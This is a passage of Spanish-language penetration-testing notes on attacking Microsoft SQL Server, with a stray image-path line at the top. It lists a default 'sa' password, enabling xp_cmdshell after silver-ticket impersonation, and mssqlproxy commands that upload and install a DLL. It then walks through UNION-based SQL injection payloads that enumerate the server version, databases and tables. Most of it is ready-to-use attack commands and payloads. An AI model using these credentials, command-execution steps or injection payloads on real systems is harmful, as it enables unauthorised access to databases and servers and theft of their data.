 Otra cosa a tener en cuenta es que necesitamos credenciales, pero pueden estar habilitadas las de por defecto:

```plaintext
sa:RPSsql12345
```

Si hemos conseguido impersonar a Administrator gracias a un silver ticket, podemos hacer lo siguiente:

```shell
enable_xp_cmdshell
```

Y ya estaría.
Dejo por aquí un proyecto interesante que habla de un proxy con mssql:
https://github.com/blackarrowsec/mssqlproxy

```shell
python2 mssqlclient.py <DOMINIO>/<USUARIO>:<CONTRASEÑA>@<IP>
enable_ole
upload recyclator.dll C:\ProgramData\recyclator.dll
python2 mssqlclient.py <DOMINIO>/<USUARIO>:<CONTRASEÑA>@<IP> -install -clr assembly.dll
python2 mssqlclient.py <DOMINIO>/<USUARIO>:<CONTRASEÑA>@<IP> -start -reciclador 'C:\ProgramData\reciclador.dll'
```


## SQLi (MSSQL)

Situación: tenemos una web que es vulnerable a `SQLi`, así que podemos hacer algo así:

```sql
union select 1,2,3,4,5,6-- -
```

Los números tienes que ir probando a incrementarlos hasta que coincida con el número de columnas.
Si queremos ver la versión de **MSSQL** reemplazamos uno de los números por `@@version`:

```sql
union select 1,@@version,3,4,5,6-- -
```

Para ver el nombre de la base de datos:

```sql
union select 1,(SELECT DB_NAME()),3,4,5,6-- -
```

Y para ver todas las bases de datos:

```sql
union select 1,name,3,4,5,6 FROM master..sysdatabases;-- -
```

Con el nombre de la db podemos listar las tablas:

```sql
union select 1,name,3,4,5,6 FROM DB..sysobjects WHERE xtype = 'U';-- -
```
